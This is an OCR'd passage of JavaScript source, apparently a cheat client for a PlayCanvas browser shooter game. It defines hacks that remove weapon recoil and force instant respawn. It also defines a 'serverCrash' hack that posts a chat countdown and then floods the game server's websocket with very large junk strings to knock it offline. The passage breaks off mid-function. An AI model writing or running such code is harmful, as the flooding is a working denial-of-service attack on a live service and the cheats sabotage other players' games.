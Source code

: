         this.lookY += .04 * e,
        this.spreadNumber = pc.math.lerp(this.spreadNumber, r, .1),
        this.spreadCount += t,
        this.currentWeapon.ammo--,
        this.app.fire("Overlay:Shoot", !0),
        this.app.tween(this.animation).to({
            bounceX: s,
            bounceZ: o,
            bounceAngle: n,
            shootSwing: h
        }, .03, pc.BackOut).start(),
        this.app.tween(this.animation).to({
            cameraShootBounce: a,
            cameraBounce: this.animation.cameraBounce + .025 * e
        }, .09, pc.BackOut).start(),
        this.animation.activeBounce = pc.math.lerp(this.animation.activeBounce, -e, .05),
        this.animation.horizantalSpread = pc.math.lerp(this.animation.horizantalSpread, .04 * c, .1)
    }
  }, "noRecoil", "no recoil", "no keybind");
  var instaRespawn = new client.Hack(function (){

  }, function () {
    if(pc.controls.player.isDeath) {
      pc.app.fire("Network:Respawn", false);
    }
  }, function (){

  }, "instaRespawn", "respawn instantly", "no keybind");
  var serverCrash = new client.Hack(function (){
    window.allow = false;
    pc.app.fire("Network:Chat", "Crashing server in 10 seconds");
    setTimeout(function(){pc.app.fire("Network:Chat", "Crashing server in 9 seconds");}, 1000);
    setTimeout(function(){pc.app.fire("Network:Chat", "Crashing server in 8 seconds");}, 2000);
    setTimeout(function(){pc.app.fire("Network:Chat", "Crashing server in 7 seconds");}, 3000);
    setTimeout(function(){pc.app.fire("Network:Chat", "Crashing server in 6 seconds");}, 4000);
    setTimeout(function(){pc.app.fire("Network:Chat", "Crashing server in 5 seconds");}, 5000);
    setTimeout(function(){pc.app.fire("Network:Chat", "Crashing server in 4 seconds");}, 6000);
    setTimeout(function(){pc.app.fire("Network:Chat", "Crashing server in 3 seconds");}, 7000);
    setTimeout(function(){pc.app.fire("Network:Chat", "Crashing server in 2 seconds");}, 8000);
    setTimeout(function(){pc.app.fire("Network:Chat", "Crashing server in 1 seconds");}, 9000);
    setTimeout(function(){pc.app.fire("Network:Chat", "Have a great day :)");}, 9900);
    setTimeout(function(){window.allow=true}, 10000);
  }, function () {
    if(window.allow) {
      for(var a = 0; a < 52; a++) {
        var killString = "";
        for(var i = 0; i < 2048; i++){
          killString += "I_am_a_monkey_and_I_love_bananas\n";
        };
        pc.app.root.findByName("Game").findByName("NetworkManager").script.scripts[0].ws.send({monkey:killString, monkey2: killString});
      };
    };
  }, function (){
